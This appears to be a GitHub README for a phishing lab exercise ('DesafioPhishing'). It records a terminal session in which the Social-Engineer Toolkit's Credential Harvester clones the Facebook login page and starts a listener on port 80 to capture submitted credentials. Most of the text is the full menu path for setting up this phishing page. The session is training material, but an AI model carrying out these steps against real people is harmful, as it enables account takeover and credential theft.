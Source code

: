 # DesafioPhishing

┌──(adminkali㉿kali)-[~]
└─$ sudo su
┌──(root㉿kali)-[/home/adminkali]
└─# setoolkit

         01011001011011110111010100100000011100
         10011001010110000101101100011011000111
         10010010000001101000011000010111011001
         10010100100000011101000110111100100000
         01101101011101010110001101101000001000
         00011101000110100101101101011001010010
         00000110111101101110001000000111100101
         10111101110101011100100010000001101000
         01100001011011100110010001110011001000
         00001110100010110100101001001000000101
         01000110100001100001011011100110101101
         11001100100000011001100110111101110010
         00100000011101010111001101101001011011
         10011001110010000001110100011010000110
         01010010000001010011011011110110001101
         10100101100001011011000010110101000101
         01101110011001110110100101101110011001
         01011001010111001000100000010101000110
         11110110111101101100011010110110100101
         11010000100000001010100110100001110101
         011001110111001100101010

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set>1
Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set>2

1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
  
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesns't know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perpective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.3.51]:

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.3.51]:
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a little bit...

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:

![image](https://github.com/maleite40/DesafioPhishing/assets/156034589/4ccf1ef0-a5ba-4dc0-a77c-2079fd737284)


![image](https://github.com/maleite40/DesafioPhishing/assets/156034589/f8ed2e9a-1619-4b86-80b5-f342ca9883e6)





